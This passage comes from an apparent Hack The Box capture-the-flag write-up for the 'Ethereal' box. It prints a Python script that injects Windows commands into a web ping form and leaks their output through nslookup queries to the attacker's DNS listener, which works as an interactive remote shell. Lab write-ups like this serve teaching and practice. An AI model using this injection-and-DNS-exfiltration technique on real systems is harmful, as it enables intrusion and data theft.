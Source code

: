 We just listed `c:\users` and found the following directories:

- c:\users\Administrator
- c:\users\alan
- c:\users\jorge
- c:\users\rupal

Doing things manually takes a long time so I started working on a python script to automate the process. [Overcast](https://www.hackthebox.eu/home/users/profile/9682) [[Blog](https://www.justinoblak.com/)] was also working on the box and was one step ahead of me. He shared with me a script he had already created.

```python
#!/usr/bin/python3

from socket import *
from requests_futures.sessions import FuturesSession
import time
import select


s = socket(AF_INET, SOCK_DGRAM)
s.settimeout(10)
s.bind(('10.10.14.23', 53))

def recv():
    print("[+] Receiving data:")
    try:
        while True:
            data = s.recv(1024)
            if data[1] == 2: # A record
                print(data[13:-5])
    except Exception as e:
        print(e)
        print("[!] Done")
        return

def send(cmd, col):
    session = FuturesSession()
    session.post("http://ethereal.htb/p1ng/", data=
            {
                "__VIEWSTATE": "/wEPDwULLTE0OTYxODU3NjhkZD0G/ny1VOoO1IFda8cKvyAZexSk+Y22QbXBRP0gxbre",
                "__VIEWSTATEGENERATOR": "A7095145",
                "__EVENTVALIDATION": "/wEdAAOZvFNfMAAnpqKRCMR2SHn/4CgZUgk3s462EToPmqUw3OKvLNdlnDJuHW3p+9jPAN/siIFmy9ZoaWu7BT0ak0x7Uttp88efMu6vUQ1geHQSWQ==",
                "search": f"127.0.0.1 && FOR /F \"tokens={col}\" %g IN ('{cmd}') do (nslookup %g 10.10.14.23)",
                "ctl02": ""
            },
            proxies={"http": "127.0.0.1:8080"})

def shell():
    while 1:
        cmd = input("$> ")
        if cmd == "exit":
            s.close()
            exit()
        else:
            col = input("(col#)> ")
            if col == '':
                col = 1
            else:
                col = int(col)
            send(cmd, col)
```